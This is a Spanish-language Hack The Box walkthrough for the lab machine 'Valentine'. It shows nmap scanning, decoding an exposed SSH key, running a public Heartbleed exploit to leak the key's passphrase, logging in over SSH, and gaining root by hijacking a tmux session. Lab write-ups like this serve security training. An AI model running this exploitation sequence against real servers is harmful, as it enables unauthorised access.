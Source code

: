 # 🕵️ Reconocimiento

Enviamos un `ping` para verificar si la máquina está activa y estimar el sistema operativo por TTL:

```bash
ping -c 1 10.10.10.79
```

![[Valentine1.png]]

- **TTL = 63** → Cercano a 64, se asume que es **Linux**.

---

## 🔍 Escaneo de puertos con Nmap

1. Escaneo completo de puertos abiertos:
   ```bash
   nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.79 -oG allports
   ```
   ![[Valentine2.png]]

2. Escaneo detallado con detección de versión y scripts básicos:
   ```bash
   nmap -sCV -p22,80,443 10.10.10.79 -oN target
   ```
   ![[Valentine3.png]]

- Puertos abiertos:
  - **22:** SSH
  - **80:** HTTP
  - **443:** HTTPS

---

## 🌐 Enumeración web

### HTTP
http://10.10.10.79

![[Valentine4.png]]

### HTTPS

https://10.10.10.79

![[Valentine5.png]]

- Nmap sugiere posibles directorios `/dev/` y `/index/`:
  ![[Valentine6.png]]

### Directorio `/dev/`
http://10.10.10.79/dev

![[Valentine7.png]]
http://10.10.10.79/dev/hype_key
- Encontramos `hype_key`:
  ```bash
  xxd -r -p key.txt > id_rsa && chmod 600 id_rsa
  ```
  ![[Valentine8.png]]
  ![[Valentine9.png]]

---

## ❤️‍🔥 Heartbleed

1. Verificar vulnerabilidad:
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
2. Exploit con Searchsploit:
   ```bash
   searchsploit -m multiple/remote/32764.py
   python2.7 32764.py 10.10.10.79 -p 443
   ```
   ![[Valentine11.png]]
3. Decodificar cadena Base64:
   ```bash
   echo "BASE64_STRING" | base64 -d > id_rsa
   chmod 600 id_rsa
   ```
   ![[Valentine12.png]]
   ![[Valentine13.png]]

---

## 🔐 Acceso SSH

```bash
ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa \
    -o HostKeyAlgorithms=+ssh-rsa \
    -i id_rsa hype@10.10.10.79
```
- **Passphrase:** `heartbleedbelievethehype`

![[Valentine14.png]]

---

## 🪟 Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 37 columns 174
```

---

## 🧗‍♂️ Escalada de privilegios

1. Listar procesos tmux:
   ```bash
   ps aux | grep tmux
   ```
   ![[Valentine15.png]]
2. Hijack de sesión tmux:
   ```bash
   sudo /usr/bin/tmux -S /.devs/dev_sess
   ```
   ![[Valentine16.png]]

---

# 🧠 Notas

- **CTRL+ALT** en Kitty permite copiar líneas directamente.

---

# 📚 Créditos

- Writeup oficial de HTB  
- [Writeup de adrijmnz](https://github.com/adrijmnz/WriteUps/blob/main/HackTheBox/Easy/Valentine/Valentine.md)
